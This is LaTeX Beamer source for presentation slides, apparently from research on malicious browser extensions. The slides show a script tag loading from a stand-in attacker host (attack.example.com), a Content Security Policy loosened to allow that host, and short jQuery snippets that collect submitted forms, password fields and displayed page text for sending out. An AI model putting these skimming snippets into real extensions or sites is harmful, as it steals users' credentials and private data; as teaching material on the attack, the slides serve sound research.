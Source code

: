 \documentclass[accentcolor=tud9c,colorbacktitle,xcolor=dvipsnames]{tudbeamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Design and Implementation - Communication \\ \textit{Script Element}}
    \begin{block}{HTML}
        \begin{lstlisting}[language=HTML, numbers=none]
<script src="https://attack.example.com"></script>   
\end{lstlisting}
    \end{block} 
    \begin{block}{Modified Content Security Policy}
        \begin{lstlisting}
{
...
    "content_security_policy": 
        "script-src 'self'!\colorbox{orange!30}{'https://*.example.com/'}!; object-src 'self'"	
}
\end{lstlisting}       
    \end{block}    
\end{frame}

\begin{frame}
    \frametitle{Design and Implementation - Structure}
    \includegraphics[scale=0.3]{./graphics/design_overview.jpeg}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Design and Implementation - Attack Vectors \\ Obtain Sensitive Data}
    \begin{block}{Obtain Form Data}
        \begin{lstlisting}[language=JavaScript, numbers=none]
$('form').submit(function() { send($(this).serialize()); });
\end{lstlisting}
    \end{block}
    \begin{block}{Obtain Credentials}
        \begin{lstlisting}[language=JavaScript, numbers=none]
send($('input[type=password]').closest('form').serialize());
\end{lstlisting}
    \end{block}
    \begin{block}{Obtain Displayed Data}
        \begin{lstlisting}[language=JavaScript, numbers=none]
send($(cssSelector).text());
\end{lstlisting}        
    \end{block}
\end{frame}
\end{document}
